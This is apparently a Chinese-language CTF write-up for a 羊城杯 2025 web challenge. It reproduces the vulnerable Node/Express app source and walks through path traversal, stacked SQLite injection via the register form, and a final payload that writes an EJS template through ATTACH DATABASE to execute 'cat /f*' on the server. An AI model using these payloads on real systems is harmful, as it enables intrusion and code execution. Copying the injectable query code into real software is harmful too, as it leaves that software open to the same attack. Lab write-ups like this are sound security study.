
文件读取拿源码 download?filename=../app.js
```
const express = require('express');
const session = require('express-session');
const sqlite3 = require('sqlite3').verbose();
const path = require('path');
const fs = require('fs');

const app = express();
const db = new sqlite3.Database('./db.sqlite');

/*
FLAG in /fla4444444aaaaaagg.txt
*/

app.use(express.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));
app.use(session({
  secret: 'welcometoycb2025',
  resave: false,
  saveUninitialized: true,
  cookie: { secure: false }
}));

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');


const checkPermission = (req, res, next) => {
  if (req.path === '/login' || req.path === '/register') return next();
  if (!req.session.user) return res.redirect('/login');
  if (!req.session.user.isAdmin) return res.status(403).send('无权限访问');
  next();
};

app.use(checkPermission);

app.get('/', (req, res) => {
  fs.readdir(path.join(__dirname, 'documents'), (err, files) => {
    if (err) {
      console.error('读取目录时发生错误:', err);
      return res.status(500).send('目录读取失败');
    }
    req.session.files = files;
    res.render('files', { files, user: req.session.user });
  });
});

app.get('/login', (req, res) => {
  res.render('login');
});

app.get('/register', (req, res) => {
  res.render('register');
});

app.get('/upload', (req, res) => {
    if (!req.session.user) return res.redirect('/login');
    res.render('upload', { user: req.session.user });
    //todoing
});

app.get('/logout', (req, res) => {
  req.session.destroy(err => {
    if (err) {
      console.error('退出时发生错误:', err);
      return res.status(500).send('退出失败');
    }
    res.redirect('/login');
  });
});

app.post('/login', async (req, res) => {
    const username = req.body.username;
    const password = req.body.password;
    const sql = `SELECT * FROM users WHERE (username = "${username}") AND password = ("${password}")`;
    db.get(sql,async (err, user) => {
        if (!user) {
            return res.status(401).send('账号密码出错！！');
        }
        req.session.user = { id: user.id, username: user.username, isAdmin: user.is_admin };
        res.redirect('/');
    });
});


app.post('/register', (req, res) => {
  const { username, password, confirmPassword } = req.body;
  
  if (password !== confirmPassword) {
    return res.status(400).send('两次输入的密码不一致');
  }
  
  db.exec(`INSERT INTO users (username, password) VALUES ('${username}', '${password}')`, function(err) {
    if (err) {
      console.error('注册失败:', err);
      return res.status(500).send('注册失败，用户名可能已存在');
    }
    res.redirect('/login');
  });
});

app.get('/download', (req, res) => {
  if (!req.session.user) return res.redirect('/login');
  const filename = req.query.filename;
  if (filename.startsWith('/')||filename.startsWith('./')) {
    return res.status(400).send('WAF');
  }
  if (filename.includes('../../')||filename.includes('.././')||filename.includes('f')||filename.includes('//')) {
    return res.status(400).send('WAF');
  }
  if (!filename || path.isAbsolute(filename) ) {
    return res.status(400).send('无效文件名');
  }
  const filePath = path.join(__dirname, 'documents', filename);
  if (fs.existsSync(filePath)) {
    res.download(filePath);
  } else {
    res.status(404).send('文件不存在');
  }
});


const PORT = 80;
app.listen(PORT, () => {
  console.log(`Server running on http://localhost:${PORT}`);
});
```
sqlite3 注入，先测试一下是否能建表插值
```
username=123&password=1'); CREATE TABLE IF NOT EXISTS pwn(note TEXT); INSERT INTO pwn VALUES('OK-1');--&confirmPassword=1'); CREATE TABLE IF NOT EXISTS pwn(note TEXT); INSERT INTO pwn VALUES('OK-1');--
```
读取 ../db.sqlite，拿到本地读一下，看到 SQL 执行成功

测试是否允许 load_extension 加载 `fileio`，如果可以则能直接调用 `readfile()` / `writefile()`把 /fla4444444aaaaaagg.txt 读出来
```
username=1234&password=1'); INSERT INTO pwn VALUES('BEFORE-EXT'); SELECT load_extension('/usr/lib/x86_64-linux-gnu/sqlite3/fileio.so','sqlite3_fileio_init'); INSERT INT

O pwn VALUES('AFTER-EXT');--&&confirmPassword=1'); INSERT INTO pwn VALUES('BEFORE-EXT'); SELECT load_extension('/usr/lib/x86_64-linux-gnu/sqlite3/fileio.so','sqlite3_fileio_init'); INS

ERT INTO pwn VALUES('AFTER-EXT');--
```

失败，测了一晚上没有思路，这题贴一下 z3 队长的解法
payload
```
');ATTACH DATABASE '/app/views/upload.ejs' AS z3;create TABLE z3.exp (paylo
ad text); insert INTO z3.exp (payload) VALUES ('<%= process.mainModule.requ
ire("child_process").execSync("cat /f*").toString() %>');--
```



---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/%E7%BE%8A%E5%9F%8E%E6%9D%AF-2025-web-writeup/  

